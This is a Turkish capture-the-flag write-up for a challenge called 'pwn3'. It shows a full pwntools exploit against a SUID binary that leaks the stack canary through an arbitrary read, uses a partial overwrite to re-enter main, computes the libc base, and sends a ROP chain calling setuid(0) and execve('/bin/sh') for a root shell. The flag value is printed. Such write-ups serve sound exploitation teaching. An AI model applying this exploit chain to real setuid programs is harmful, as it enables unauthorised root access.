# pwn3 - PWN

flag: `SKYSEC{0R4D4_BUR4D4_D0L454N_4D4M}`

# Writeup

Sorunun mevcut olduğu, size ait olan docker container'ına bağlanmak için sizlere verdiğimiz `ssh` kullanıcı adını ve şifresini kullanmanız gereklidir. 


Sorumuz **skysec** kullanıcısının home klasöründe bulunan `challenge` isimli soru dosyası ve **/** klasöründe bulunan `flag` dosyasından ibaret. Gelin challenge dosyasını birazcık inceleyelim. 

``` bash
file /home/skysec/challenge
```



`/flag` dosyasını root olmadan, skysec kullanıcısı ile okuyamıyoruz; ancak gördüğünüz üzere challenge dosyamızın `SUID` biti aktif. Yani biz bu dosya üzerinden herhangi bir işlem yaptığımız zaman, yapacağımız işlemler root yetkilerine sahip olacaktır.

Şimdi sorunun içeriğine bakalım:



Soru bize eğlenceli ve kısa bir yazı sunmakta, bir adet adres vermekte ve bizden bir girdi beklemekte. Bunların ne yaptığını anlamak için IDA kullanarak programımızı disassemble'layalım. 



Burada görülebileceği üzere, 136 byte'lık bir buffer bulunuyor; ve bu buffer'ın başlangıç adresini bize program çalıştırılırken veriyor. Bunun verilmesi demek, stack'te yolumuzu bulabileceğimiz bir adresin bize verilmesi demek. Artık bir stack leak'imiz var.

Bizden alınan girdi ise bir adres olacak şekilde verilmiş, biz bir adet adres girdiğimizde o adresteki QWORD boyutunda değeri bize söylüyor. Yani arbitrary read primitive'imiz bize soru tarafından veriliyor. 

Daha sonrasında ise bizden ikinci bir girdi alıp bu girdiyi buffer'a yazmaya başlıyor ancak herhangi bir boyut kontrolü yapmıyor. Bunları inceledikten sonra aslında kafamızda soruyu şekillendirebiliriz.

Bize verilen arbitrary read'i de kullanarak, Buffer overflow sonucunda, `ROP (Return oriented programming)` kullanarak programın akışını ele geçirmeye çalışacağız. 

Hadi exploit'imizi yazmaya başlayalım 

---

# Exploitation

İlk önce `checksec` komutu ile challenge dosyamızdaki mitigationları görelim:



Göreceğimiz üzere Non-Executable Stack, PIE, ASLR ve Canary dahil olmak üzere (bizim için en önemlileri bunlar) bütün mitigationlar açık. Bizim işimizi zorlaştıracak kısım da bu.

Debug işlemlerimizin kolaylaşması için, SCP (Secure Copy) ile docker makinemize `gdb-peda` aktarabiliriz.



İlk öncelikle bize verilen arbitrary read üzerinden stack-canary değerini her seferinde çekmemiz gerekiyor. Stack canary ise bizim buffer'ımızdan sonra bulunuyor. Yani bize verilen, stack'teki buffer başlangıç adresine 136 eklersek canary'mizin bulunduğu stack adresini elde ederiz.

### Canary değerini elde etme

Exploitation kısmı için `python3` ve, python'ın `pwntools` adlı kütüphanesini kullanacağız. 

``` python
from pwn import *

context.arch = "amd64"

OFFSET = 136
PATH = "/home/skysec/challenge"

p = process(PATH)
libc = ELF(p.libc.path)
elf = ELF(PATH)

p.recvuntil("the happiness is: ")
buff = p.recv(14)
log.info(b"Buffer @: " + buff)
buff = int(buff, 16)
CANARY_OFFSET = buff + OFFSET

p.recvuntil("rid of your laziness: \n")
p.send(hex(CANARY_OFFSET))
p.send("\n")
p.recvuntil("?: ")
canary = p.recv(18)
log.info(b"Canary: " + canary)

```

Exploitimizin bu kısmı bize verilen arbitrary read primitive'i sayesinde stackten canary değerini okuyup bize verecektir. Bu sayede kendi payload'umuzu oluştururken bu canary değerini kullanarak Stack Canary kontrolünü geçebileceğiz. 



Bu noktadan sonra programımız bizden ayrı bir girdi isteyecektir, bu da bizim payload'umuz olacak. Ancak daha sadece canary değerini biliyorken muhtemel bir ROP zinciri nasıl oluşturacağız? Gelin bakalım.


### LIBC Leak'i alma

Canary değerinden sonra bizden bir girdi aldıktan sonra program çıkışını yapacaktır. Ancak bizim `LIBC Base` adresini hesaplamamız gerekmekte. Bunun için arbitrary read primitive'imizi kullanabiliriz. **Ancak program kapanmadan (LIBC adresi ve Canary değerleri her program çalıştığında değişir) programı başa sarmamız bizim için çok faydalı olacaktır. Bunu nasıl yapacağımıza bir bakalım.



Yukarıdaki resime baktığımızda main fonksiyonumuz tamamlanırken doğal olarak başladığı yere, yani `__libc_start_call_main()` fonksiyonuna döndüğünü görüyoruz. 

Statik olarak derlenmemiş programlarda `__libc_start_main()`, `__libc_start_call_main()` fonksiyonunu çağırır, o fonksiyon da `main()` fonksiyonunu çalıştırır. 

Eğer biz `__libc_start_call_main()` içindeki, main fonksiyonunu çağıran kısıma geri dönebilirsek; main fonksiyonumuz bir daha çalışacaktır ve programımız kapanmadan başa dönecektir. 



Yukarıdaki ekran görüntüsündeki işaretli blok, main fonksiyonu için gerekli hazırlıkların yapılıp, fonksiyonun çağırılmasından sorumludur. Programımız ise işaretli kısımdan sonraki ilk satıra, yani `..ed90` adresli instructiona geri dönüyor. Bizim ise programımızı `..ed44` adresli satıra geri döndürmemiz gerekiyor. 

Adresin tamamını bilmediğimiz halde offsetler her çalıştırmada aynı kalacağı için, sadece sondaki byte değerini **90** yerine **44** yaptığımız zaman programımız main fonksiyonuna geri dönecektir. Bu tekniğe `partial overwrite` ismi verilir. 

Yani yapmamız gereken canary leak'imizi aldıktan sonra, payload'umuza 136 adet çöp değer, canary değeri, Saved RBP değeri ve sonrasında `\x44` byte'ını eklediğimizde programımız geri dönecektir; ve biz bu sayede bir adet daha leak alabileceğiz ve bir adet daha payload yollayabileceğiz. 

``` python

PAYLOAD = b"A".ljust(OFFSET, b"A")
PAYLOAD += p64(int(canary.decode(), 16))
PAYLOAD += p64(0xdeadbeef)
PAYLOAD += b"\x44"
# PAYLOAD += b"\n"


p.send(PAYLOAD)

recieved = p.recvuntil("rid of your laziness: \n")


```



Programımız geri döndükten sonra yine aynı şekilde bizden bir adet adres isteyecek ve o adresteki değeri bize okuyacak. 

Bizim ihtiyacımız olan şey `LIBC Base` adresini bulmak. Bunun için herhangi bir LIBC adresine ihtiyacımız var. Hatırlarsanız zaten stack'imizin sonunda `__libc_start_call_main` fonksiyonunun adresi bulunuyordu. Bu adresi aynı şekilde LIBC base adresini hesaplamak için de kullanabiliriz. 

Bunun öncesinde sistemimizin kullandığı libc versiyonunu bulmak için basit bir C programı yazalım. 

``` C
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

int main(){

        printf("read: %p\n", read);
        printf("printf: %p\n", printf);
        printf("write: %p\n", write);

        return 0;

}

```

Bu basit c programı bize sistemin kullandığı LIBC objesi içindeki 3 adet fonksiyonun adresini verecektir.



Bu adresleri kullanarak LIBC database üzerinden libc versiyonumuzu elde edebiliriz. 



Bu versiyon üzerinden base adresimizi hesaplayacağız. Hadi gelin ilk önce leak'imizi alalım. 

``` python
__libc_start_main_loc = buff + 152
p.send(hex(__libc_start_main_loc))
p.send("\n")
p.recvuntil("?: ")
main_start = p.recv(14)
log.info(b"Main LIBC START @:" + main_start)
```

Stack üzerinde `__libc_start_call_main()` adresi, bizim buffer adresimizden 152 byte sonra bulunuyor.



Bizim elde ettiğimiz adresten, __libc_start_main() in başlangıç adresi 0x30 byte sonrasında bulunuyor. Yani eğer biz bulduğumuz adrese 0x30 ekleyip daha sonrasında __libc_start_main()'in offsetini çıkarırsak LIBC BASE adresini bulmuş oluruz.



``` python

LIBC_BASE = int(main_start, 16) - 0x0000000000029dc0 + 0x30
log.info("LIBC Base @:" + hex(LIBC_BASE))

PAYLOAD = b"A".ljust(OFFSET, b"A")
PAYLOAD += p64(int(canary.decode(), 16))
PAYLOAD += p64(0xdeadbeef)
PAYLOAD += b"\x44"
p.clean()
p.send(PAYLOAD)
recieved = p.recvuntil("rid of your laziness: \n")
log.info("Ready to send the actual payload")
libc.address = LIBC_BASE
print(recieved.decode())

p.send(hex(__libc_start_main_loc))
p.send("\n")
p.recvuntil("?: ")
main_start = p.recv(14)


```

LIBC base adresini hesapladıktan sonra programı bir kez daha geri döndürmemiz gerekiyor ki son olarak chain'imizi yollayalım.


Şimdi üçüncü ve son aşama olarak, son payload'umuzu oluşturacağız. Bunun için farklı yöntemler izleyebiliriz. En basit yöntemi `execve` sistem çağrısı ile kendimize bir root shell almak ve aldığımız root shell ile `/flag` dosyasını okumak.

> `/bin/sh` stringini içeren adresi LIBC üzerinden `ROPgadget --binary /usr/lib/x86_64-linux-gnu/libc.so.6 --string "/bin/sh" ` komutu ile öğrenebiliriz.

``` python
LIBC_BINSH = libc.address + 0x00000000001d8678


rop = ROP(libc)
rop.call("setuid", [0])
rop.call("execve", [LIBC_BINSH, 0, 0])


PAYLOAD = b"A".ljust(OFFSET, b"A")
PAYLOAD += p64(int(canary.decode(), 16))
PAYLOAD += p64(0xdeadbeef)
PAYLOAD += rop.chain()
p.send(PAYLOAD)
p.interactive()
```

Son olarak exploit kodumuzu `python3 exploit.py` komutu ile çalıştırdığımızda root shell'e sahip olup, flag'i başarılı bir şekilde okuyabildiğimizi göreceğiz.




---
